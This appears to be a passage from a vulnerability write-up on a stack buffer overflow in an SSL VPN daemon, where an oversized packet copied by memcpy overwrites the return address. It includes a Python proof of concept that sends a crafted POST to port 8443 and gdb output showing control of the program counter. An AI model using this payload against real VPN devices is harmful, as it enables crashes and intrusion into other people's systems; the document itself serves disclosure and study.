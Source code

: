There is a large buffer on the stack that has been designed to hold a maximum of 0x4000 bytes. Further down the function execution, there is a `memcpy()` function that copies data into this buffer.

```cpp
memcpy(auStack16424,PACKET_IN,num_bytes_read);
```

This implementation doesn't take into account that the data in the `PACKET_IN` buffer can be up to 0x8000 bytes long, due to the previously mentioned `strncat()` function that joins those two 0x4000 buffers. Therefore, when a large packet is sent, we can overflow the stack buffer and overwrite the return address. 

![](pics/stack_overflow.png)
> Figure 4: Stack overflow

```python
FILLER = b'\x04' * (16400)
PC = b"\xcc\xcc\xcc\xcc\x00"
url = "https://%s:8443/" % TARGET

payload = FILLER + PC
r = requests.post(url, data=payload, verify=False)
```

```bash
[New Thread 30958.313]

Thread 10 "sslvpnd" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 30958.313]
0xcccccccc in ?? ()
(gdb) info registers 
r0             0x0                 0
r1             0x81                129
r2             0x1                 1
r3             0x1                 1
r4             0x4040404           67372036
r5             0x4040404           67372036
r6             0xcccccccc          3435973836
r7             0x4040404           67372036
r8             0x4040404           67372036
r9             0x4040404           67372036
r10            0x4040404           67372036
r11            0x18f89c            1636508
r12            0x0                 0
sp             0x704aebe8          0x704aebe8
lr             0x1                 1
```